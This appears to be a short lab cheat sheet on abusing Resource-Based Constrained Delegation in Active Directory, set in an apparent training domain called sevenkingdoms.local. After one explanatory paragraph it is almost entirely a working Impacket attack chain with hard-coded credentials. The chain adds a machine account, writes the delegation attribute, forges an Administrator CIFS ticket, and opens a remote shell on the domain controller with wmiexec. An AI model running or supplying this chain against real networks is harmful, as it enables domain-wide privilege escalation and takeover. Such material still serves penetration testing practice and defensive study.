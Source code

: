 **Resource-Based Constrained Delegation (RBCD)** is a delegation method in Active Directory environments where control over delegation is assigned to the resource. It works by allowing a resource (like a server) to specify which accounts can impersonate users to access that resource using their Kerberos tickets (TGS—Ticket Granting Service).

```bash
addcomputer.py -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-host kingslanding.sevenkingdoms.local 'sevenkingdoms.local/stannis.baratheon:Drag0nst0ne'
```


```bash
rbcd.py -delegate-from 'rbcd$' -delegate-to 'kingslanding$' -dc-ip 'kingslanding.sevenkingdoms.local' -action 'write' sevenkingdoms.local/stannis.baratheon:Drag0nst0ne 
```

```bash
getST.py -spn 'cifs/kingslanding.sevenkingdoms.local' -impersonate Administrator -dc-ip 'kingslanding.sevenkingdoms.local' 'sevenkingdoms.local/rbcd$:rbcdpass'   
```


```bash
export KRB5CCNAME=/workspace/rbcd/Administrator@cifs_kingslanding.sevenkingdoms.local@SEVENKINGDOMS.LOCAL.ccache
```


```bash

wmiexec.py -k -no-pass @kingslanding.sevenkingdoms.local
```